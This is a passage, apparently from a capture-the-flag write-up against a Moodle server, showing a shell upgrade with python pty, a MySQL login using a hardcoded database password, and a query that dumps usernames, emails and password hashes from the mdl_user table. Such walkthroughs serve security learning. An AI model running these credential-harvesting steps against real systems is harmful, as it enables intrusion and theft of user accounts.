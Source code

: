 Before connecting to the database, we change to a more appropriate shell using `pty` to avoid any shell issues.

```bash
/usr/local/bin/python3 -c "import pty; pty.spawn('/bin/bash')"
echo $SHELL
```
Next we connect to the webpage's MySQL database.

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodled
```

![alt text](images/image-25.png)

```sql
show tables;
```

Browsing the database we find many tables but the one that interests us is `mdl_user`. The next step is to fetch `mdl_user` properties using `desc`.

```sql
desc mdl_users;
```

![alt text](images/image-26.png)

The three (3) fields that we focus on are `username`, `email` and `password`.

```sql
select username, email, password from mdl_user;
```
